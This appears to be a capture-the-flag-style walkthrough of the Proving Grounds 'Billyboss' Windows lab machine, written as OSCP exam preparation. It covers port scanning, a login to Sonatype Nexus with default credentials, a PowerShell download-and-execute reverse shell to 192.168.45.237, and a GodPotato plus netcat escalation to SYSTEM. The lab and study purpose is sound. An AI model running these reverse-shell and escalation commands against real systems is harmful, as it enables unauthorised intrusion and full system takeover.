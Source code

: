 ```yaml
---
title: Billyboss
date: 2025-04-15
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough] 
image: istockphoto.jpg
media_subpath: /assets/img/posts/2025-04-15-billyboss/
---
```

## Introduction
In this walkthrough we will be solving Proving Grounds Intermediate Windows box Billyboss. Let’s start ..

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV 192.168.194.61 --open
```

![image.png](image.png)

### UDP

Run UDP scan on top 100 ports to not o miss anything valuable

```bash
sudo nmap -sU -F 192.168.194.61
```

![image.png](image%201.png)

No valuable UDP ports are found.

### Full Nmap Scan

While interacting with other services run full Nmap port scan in the background.

```bash
sudo nmap -p- -sV -sC 192.168.194.61 --open  
```

## Services

### Port 21

Anonymous login is not allowed

![image.png](image%202.png)

### Port 139/445

Null session is not allowed 

```bash
smbclient -L //192.168.194.61/ -N
```

Enum4linux does not return anything useful:

```bash
enum4linux 192.168.194.61
```

## Web

### Port 80

- Version - Microsoft IIS httpd 10.0
- Accessing the web page we are presented with BaGet application
- runnin ffuf

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://192.168.194.61/FUZZ -fs 2166
```

![image.png](image%203.png)

**Nothing returned**

### Port 8081

- Version - **Jetty 9.4.18.v20190429**

![image.png](image%204.png)

- Accessing the web page we are presented with **Sonatype Nexus 3.21** for that I found a public exploit for

```bash
searchsploit Nexus
```

![image.png](image%205.png)

- **Directory Fuzzing**

```bash
gobuster dir -u http://192.168.194.61:8081/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42
```

![image.png](image%206.png)

## Exploitation

I checked **admin:admin**, **admin:password**, **admin:admin123** but they did not work then I searched in google for some time for default credentials of **Sonatype Nexus**, and under default credentials seclists in kali

```bash
 grep -r "Sonatype Nexus"
```

> The command `grep -r "Sonatype Nexus"` searches for the string **`"Sonatype Nexus"`** recursively in all files and directories starting from your current location.
{: .prompt-info}

it returned **nexus:nexus**

We were able to login:

![image.png](image%207.png)

As we found credentials we can proceed to leveraing found [exploit](https://www.exploit-db.com/exploits/49385)

I encoded this command to base64 and used powercat.ps1 method:

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.237/powercat.ps1');powercat -c 192.168.45.237 -p 445 -e cmd"
```

![image.png](image%208.png)

We have got a shell:

![image.png](image%209.png)

## Privilege Escalation

- [ ]  Situational Awareness
- [ ]  User/Group Privileges
- [ ]  PowerShell History(Transcription, Script Logging)
- [ ]  Sensitive Files
- [ ]  Insecure Service Executables
- [ ]  DLL hijacking
- [ ]  Unquoted Service Path
- [ ]  Application-based exploits
- [ ]  Kernel Exploits
- [ ]  Check root, user home, Documents, Desktop, Downloads directories.

I checked privileges:

![image.png](image%2010.png)

It turns out we have **SeImpersonatePrivilege** we can use [GodPotato](https://github.com/BeichenDream/GodPotato)

Run this command to identify .NET version used on the target: 

```powershell
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP" /s
```

I created a new directory and transferred files to that directory:

![image.png](image%2011.png)

And run this command: 

```powershell
.\GodPotato-NET4.exe -cmd ".\nc64.exe -e cmd.exe 192.168.45.237 445"
```

![image.png](image%2012.png)

Now we are nt authority\system !

## Mitigation

- Do not use default credentials
- Update Sonatype Nexus application to safe version
- Do not give excessive privileges if not necessary
